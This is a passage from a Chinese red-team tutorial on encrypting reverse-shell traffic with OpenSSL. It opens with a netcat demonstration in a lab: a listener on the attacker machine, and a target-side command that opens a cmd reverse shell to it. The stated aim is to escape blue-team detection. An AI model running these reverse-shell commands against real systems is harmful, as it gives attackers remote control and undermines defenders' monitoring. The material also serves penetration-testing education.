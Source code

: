 # 一、OpenSSL加密反弹Shell

## 前言

在红队的后渗透阶段中, 往往需要反弹shell进行下一步的内网横向渗透, 而这种反弹shell大多数都有一个缺点, 那就是其传输的流量都是明文传输, 相当容易被内网的防火软件所捕捉, 要是蓝队对此流量进行朔源分析, 很容易就能复现攻击的整个流程



例如此处用netcat反弹Shell进行测试, 首先在攻击机(kali,192.168.47.134)监听本机6666端口

```
nc -lvp 6666
```

![image-20221105152309389](流量加密/image-20221105152309389.png)	



在目标主机(win7,192.168.47.149)连接攻击机并反弹一个CmdShell

```
nc 192.168.47.134 6666 -e cmd 
```

![image-20221105152453317](流量加密/image-20221105152453317.png)	



随后可在攻击机接收反弹的CmdShell, 输入`ipconfig`进行测试		

<img src="流量加密/image-20221105152631608.png" alt="image-20221105152631608" style="zoom:67%;" />	